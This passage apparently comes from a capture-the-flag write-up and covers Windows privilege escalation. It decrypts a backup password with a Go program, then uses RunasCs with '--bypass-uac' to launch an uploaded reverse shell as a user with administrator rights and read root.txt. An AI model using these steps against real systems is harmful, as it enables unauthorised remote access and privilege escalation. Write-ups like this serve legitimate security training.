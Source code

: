 
- The backup password changes frequently so set everything up beforehand and then refresh the page to get the blob and the seed

- Create and upload a reverse shell
- Upload RunasCS
- Set up a listener

- Build the go file
  
```bash
go build decrypt.go

```
- Get the updated blob and seed and run the go program:
  
```bash
go run decrypt.go -seed=29268452 -data="febmF1H0JlQFI97jPs87bLjUqBbG6VS_udL8MQ0pvduoDXJuftLW3td74B0KrJdB2Ra19btk0M0="

```

![image35](../resources/ddf0fc0889f2461d9b236db0c107bdb1.png)

- Use the password generated and run the reverse shell with RunasCS
  
```bash
.\RunasCs.exe backup ksjWToylCIXHbCmDKBnjwcKGJVUOLPWCNqnDAPAA ".\backup_reverse.exe" --bypass-uac

```

![image36](../resources/1be04e6fb3c948c197ce67530a06cf8b.png)

- Backup user has rights to Administrator
  
```bash
type root.txt

```
